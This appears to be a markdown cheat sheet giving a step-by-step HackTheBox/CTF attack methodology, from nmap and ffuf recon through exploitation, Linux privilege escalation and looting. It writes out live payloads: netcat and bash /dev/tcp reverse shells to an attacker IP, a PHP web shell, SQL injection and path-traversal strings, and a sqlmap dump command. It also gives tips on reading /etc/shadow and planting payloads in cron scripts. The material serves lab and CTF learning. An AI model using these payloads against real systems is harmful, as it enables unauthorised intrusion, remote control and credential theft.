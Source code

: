 ```yaml
---
description: HackTheBox flowchart-style methodology
---
```


# HTB/CTF Methodology

### ❤️‍🩹 Preamble **Flowchart Structure**

* Each section should be followed **sequentially**, but **loop back** when necessary (e.g., if privilege escalation fails, redo enumeration)
* The **faster you enumerate**, the faster you pwn!
* **CTF-style mindset:** If one method isn’t working, try another attack vector!
* Keep **automation + manual balance**: Don’t blindly run scripts, think like an attacker!

***

### [🏴 **Step 1: Initial Recon (Information Gathering)**](enumeration-recon/)

#### 🔍 **1.1 - Basic Enumeration (Nmap)**

* `nmap -sSVC -oN initial_scan.txt <IP>`
* If firewalls suspected: `nmap -Pn -sV -O -oN aggressive_scan.txt <IP>`
* UDP scan if needed: `nmap -sU -oN udp_scan.txt <IP>`
* UDP scan for top 100 ports: `nmap -sU --top-ports 100 <IP>`
* **Key Takeaways:** Open ports, running services, potential vulnerabilities

#### 🌐 **1.2 - Web Recon (If HTTP/HTTPS is Open)**

* **Directory fuzzing:** `ffuf -u http://example.com/FUZZ -w <WORDLIST> -ac`
* **Subdomain fuzzing:** `ffuf -u http://example.com/ -w <WORDLIST> -H "Host: FUZZ.example.com" -ac`
* **Check for juicy files:** `robots.txt`, `.git/`, `.env`, `.DS_Store`, `backup.zip`
* **CMS detection:** `whatweb <URL>` or `wpscan --url <URL> --enumerate`
* **Test for LFI/RFI, SQLi, SSTI, XSS manually**

#### 🔗 **1.3 -** [**SMB**](enumeration-recon/active-directory.md)**, FTP, and Other Services**

* **SMB Shares:** `smbclient -L //<IP>` → `smbmap -H <IP>`
* **FTP:** Anonymous login? Check for writable directories.
* **SNMP:** `snmpwalk -v 2c -c public <IP>` (leaks usernames!)
* **Check for misconfigurations, default creds, exploits**

### 🎯 **Step 2: Exploitation & Shell Access**

#### 🛠 **2.1 - Search for Exploits**

* `searchsploit <service>`
* Google: " version exploit"
* `nuclei -t cves/ -u http://<IP>`
* Check GitHub & Exploit-DB for PoCs

#### 💣 **2.2 - Manual Exploitation**

* **SQL Injection** (Try `' OR 1=1 --` or `sqlmap -u "http://<IP>/login.php?user=admin" --dump`)
* **LFI/RFI:** `../../../../etc/passwd` or `curl http://<IP>/page.php?file=../../../../etc/passwd`
* **Command Injection:** `; whoami`, `$(id)`, `| nc <your_IP> <port> -e /bin/bash`

#### 🏴 **2.3 - Reverse Shells & Web Shells -** [**https://www.revshells.com/**](https://www.revshells.com/)

* Netcat: `nc -lvnp 4444` → Target: `bash -i >& /dev/tcp/<your_IP>/4444 0>&1`
* PHP shell: `echo '<?php system($_GET["cmd"]); ?>' > shell.php`
* **Stabilize shell:** `python3 -c 'import pty; pty.spawn("/bin/bash")'`
* Upgrade: `stty raw -echo; fg; reset`

### [🔼 **Step 3: Privilege Escalation**](privilege-escalation/)

#### 🔑 **3.1 - Enumerate for Privesc**

* `whoami && id && hostname`
* `sudo -l` (check for sudo misconfigurations)
* `find / -perm -u=s -type f 2>/dev/null` (SUID binaries)
* `env | grep PATH` (Path hijacking?)
* `ls -lah /home/* /root/` (sensitive files)
* **Automated:** `linpeas.sh`, `linux-smart-enumeration.sh`, `winPEAS.exe`

#### 💀 **3.2 - Privilege Escalation Techniques**

* **Sudo misconfigs:** `sudo /bin/bash` or `sudoedit /etc/passwd`
* **SUID binaries:** `./exploit` with elevated privileges
* **Cron jobs & writable scripts:** Replace with reverse shell payload
* **Kernel exploits:** Use `uname -a` → Search for matching exploits
* **Password reuse:** Check `.bash_history`, `/etc/shadow`, and MySQL creds

### 🚀 **Step 4: Post-Exploitation & Looting**

#### 🏆 **4.1 - Finding Flags**

* **HTB format:** `user.txt` (in home dir), `root.txt` (in `/root/`)
* Check **hidden directories**, logs, and running processes

#### 📂 **4.2 - Pivoting & Lateral Movement**

* If you found SSH keys: `ssh -i id_rsa user@<IP>`
* If there’s another user: `su <user>` with found passwords
* Check for **internal network access:** `ifconfig`, `netstat -tulnp`

### 🎉 **Step 5: Cleanup & Write-Up**

#### ✍ **5.1 - Notes & Report**

* Document **every step, command, and exploit used**
* Take screenshots of flags and interesting findings
* Write a **personalized exploit workflow** for future reference

#### ❌ **5.2 - Cleanup (If Necessary)**

* Remove reverse shells, exploits, and logs you created
* Reset permissions if modified
